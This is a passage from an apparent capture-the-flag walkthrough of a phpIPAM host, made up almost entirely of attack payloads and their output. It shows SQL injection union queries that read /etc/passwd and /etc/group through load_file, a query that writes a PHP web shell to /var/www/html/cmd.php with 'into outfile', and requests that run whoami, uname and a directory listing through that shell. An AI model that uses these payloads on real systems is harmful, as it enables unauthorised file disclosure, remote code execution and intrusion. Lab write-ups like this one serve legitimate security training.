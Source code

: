 <div><span style="color: #9aa83a;"> syslog:x:104:110::/home/syslog:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> _apt:x:105:65534::/nonexistent:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> tss:x:106:111:TPM</span></div>
<div><span style="color: #9aa83a;"> software</span></div>
<div><span style="color: #9aa83a;"> stack,,,:/var/lib/tpm:/bin/false</span></div>
<div><span style="color: #9aa83a;"> uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> pollinate:x:110:1::/var/cache/pollinate:/bin/false</span></div>
<div><span style="color: #9aa83a;"> usbmux:x:111:46:usbmux</span></div>
<div><span style="color: #9aa83a;"> daemon,,,:/var/lib/usbmux:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> sshd:x:112:65534::/run/sshd:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> ollie:x:1000:1000:ollie</span></div>
<div><span style="color: #9aa83a;"> unix</span></div>
<div><span style="color: #9aa83a;"> montgomery:/home/ollie:/bin/bash</span></div>
<div><span style="color: #9aa83a;"> lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false</span></div>
<div><span style="color: #9aa83a;"> mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin )</span></div>
<br />
<div><span style="color: #9aa83a;">" union select user(),1,1,load_file('</span>/etc/group<span style="color: #9aa83a;">') -- -</span></div>
<div><span style="color: #9aa83a;">phpipam_ollie@localhost/1 (root:x:0: daemon:x:1: bin:x:2: sys:x:3: adm:x:4:syslog,ollie tty:x:5:syslog disk:x:6: lp:x:7: mail:x:8: news:x:9: uucp:x:10: man:x:12: proxy:x:13: kmem:x:15: dialout:x:20: fax:x:21: voice:x:22: cdrom:x:24:ollie floppy:x:25: tape:x:26: sudo:x:27: audio:x:29: dip:x:30:ollie www-data:x:33: backup:x:34: operator:x:37: list:x:38: irc:x:39: src:x:40: gnats:x:41: shadow:x:42: utmp:x:43: video:x:44: sasl:x:45: plugdev:x:46:ollie staff:x:50: games:x:60: users:x:100: nogroup:x:65534: systemd-journal:x:101: systemd-network:x:102: systemd-resolve:x:103: systemd-timesync:x:104: crontab:x:105: messagebus:x:106: input:x:107: kvm:x:108: render:x:109: syslog:x:110: tss:x:111: uuidd:x:112: tcpdump:x:113: ssh:x:114: landscape:x:115: lxd:x:116: systemd-coredump:x:999: ollie:x:1000: ssl-cert:x:117: mysql:x:118: docker:x:119: )</span></div>
<br />
<div><span style="color: #9aa83a;">" union select 1,'','','' into outfile '</span>/var/www/html/test.php<span style="color: #9aa83a;">' -- -</span></div>
<div><span style="color: #9aa83a;">" union select 1,2,3,'</span><span style="color: #676867;">&lt;?</span>php system(<span style="color: #6089b4;">$_GET</span>[<span style="color: #9aa83a;">"cmd"</span>])<span style="color: #676867;">;</span> <span style="color: #676867;">?&gt;</span><span style="color: #9aa83a;">' into outfile '</span>/var/www/html/cmd.php<span style="color: #9aa83a;">' -- -</span></div>
<div><span style="color: #9aa83a;">http://10.10.163.9/cmd.php?cmd=whoami</span></div>
<div><span style="color: #9aa83a;">1 2 3 www-data</span></div>
<br />
<div><span style="color: #9aa83a;">http://10.10.163.9/cmd.php?cmd=uname%20-a</span></div>
<div><span style="color: #9aa83a;">1 2 3 Linux hackerdog 5.4.0-99-generic #112-Ubuntu SMP Thu Feb 3 13:50:55 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux </span></div>
<br />
<div><span style="color: #9aa83a;">http://10.10.163.9/cmd.php?cmd=ls%20-al%20/home/ollie/</span></div>
<div><span style="color: #9aa83a;">1 2 3 </span></div>
<div><span style="color: #9aa83a;">total 36 </span></div>
<div><span style="color: #9aa83a;">drwxr-xr-x 5 ollie ollie 4096 Feb 10 03:22 . </span></div>
<div><span style="color: #9aa83a;">drwxr-xr-x 3 root root 4096 Feb 6 15:17 .. </span></div>
<div><span style="color: #9aa83a;">lrwxrwxrwx 1 root root 9 Feb 6 15:29 .bash_history -&gt; /dev/null </span></div>
<div><span style="color: #9aa83a;">-rw-r--r-- 1 ollie ollie 220 Feb 25 2020 .bash_logout </span></div>
<div><span style="color: #9aa83a;">-rw-r--r-- 1 ollie ollie 3771 Feb 25 2020 .bashrc </span></div>
<div><span style="color: #9aa83a;">drwx------ 2 ollie ollie 4096 Feb 6 15:19 .cache </span></div>
<div><span style="color: #9aa83a;">drwxrwxr-x 3 ollie ollie 4096 Feb 6 15:46 .config </span></div>
<div><span style="color: #9aa83a;">drwxrwxr-x 3 ollie ollie 4096 Feb 6 15:20 .local </span></div>
<div><span style="color: #9aa83a;">-rw-r--r-- 1 ollie ollie 807 Feb 25 2020 .profile </span></div>